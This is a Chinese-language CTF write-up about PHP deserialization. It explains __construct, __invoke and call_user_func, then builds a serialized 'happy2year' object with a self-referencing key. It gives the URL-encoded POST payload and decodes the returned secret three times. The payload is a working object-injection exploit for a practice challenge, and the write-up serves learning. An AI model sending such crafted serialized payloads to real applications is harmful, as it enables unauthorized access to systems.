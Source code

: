 ##### php构造方法__construct()

1、构造方法__construct()是一种结构特有的特殊方法。

2、该方法由系统规定，开发人员在定义时只需写一次，有构造方法的类在实例化对象后，对象自动调用。

##### php魔术方法__invoke()

1、直接调用对象名当方法使用时，就调用的是__invoke()方法。

2、对象本身不能直接当函数用。如果去掉__invoke()方法，还是将对象当做方法来使用时，就会报错。

##### php函数call_user_func

```
call_user_func()是PHP中的内置函数，用于调用第一个参数给定的回调并将其余参数作为参数传递。它用于调用用户定义的函数。
```

函数作用：该函数主要用于通过函数名去调用该函数，除了调用函数，还可以调用对象的方法

```
mixed call_user_func ( $function_name[, mixed $value1[, mixed $... ]])
```

$function_name：已定义函数列表中函数调用的名称。它是一个字符串类型参数。
$value：混合值。一个或多个要传递给函数的参数。

[PHP call_user_func()实例讲解](http://www.manongjc.com/detail/30-hhbxpwxqpauzxeg.html)

#### payload

```
class happy2year{

    private $secret;
    private $key;
	function __construct()
	{
		$this->key = $this;
	}
}
echo urlencode(serialize(new happy2year()));

POST:data=O%3A10%3A%22happy2year%22%3A2%3A%7Bs%3A18%3A%22%00happy2year%00secret%22%3BN%3Bs%3A15%3A%22%00happy2year%00key%22%3Br%3A1%3B%7D

提交之后，页面回显：
你提交的key是 生成的secret是V2pKV01Ga3pVbTFqTW1oMlpETjBiVTlVV21sT1JGVjVUV2t3TVU5WFJtbE1WRkY1VGxSSmRGbHRUbTFaYVRGc1drUlJlVTFVUlRWUFYwVTBUMFJrT1ZveVZqQlpNMUp0WXpKb2RtUXpkRzFQVkZwcFRrUlZlVTFwTURGUFYwWnBURlJSZVU1VVNYUlpiVTV0V1dreGJGcEVVWGxOVkVVMVQxZEZORTlFWkRrPQ==

将内容进行三次base64解码，因为在类happy2year()中，一共被编码了三次。
```

```
$key = new happy2year();
在给 $key 变量赋值时，会创建一个新的 happy2year 对象，并将其分配给 $key。
然而，在构造函数 __construct() 中，又试图创建一个新的 happy2year 对象并将其分配给局部变量 $key。
这会导致递归的无限循环，因为每次创建新的 happy2year 对象时，都会再次调用构造函数，又创建一个新的 happy2year 对象，以此类推，形成无限递归。

$this->key = $this;
这将类的当前实例赋值给 $key 属性，而不是创建一个新的 happy2year 对象。
$this->key 是将当前对象的引用分配给 $key 属性的一种方式。使用 $this 引用表示当前类的实例，因此 $this->key 表示在当前对象中创建一个属性 $key 并将其赋值为当前对象本身。
```

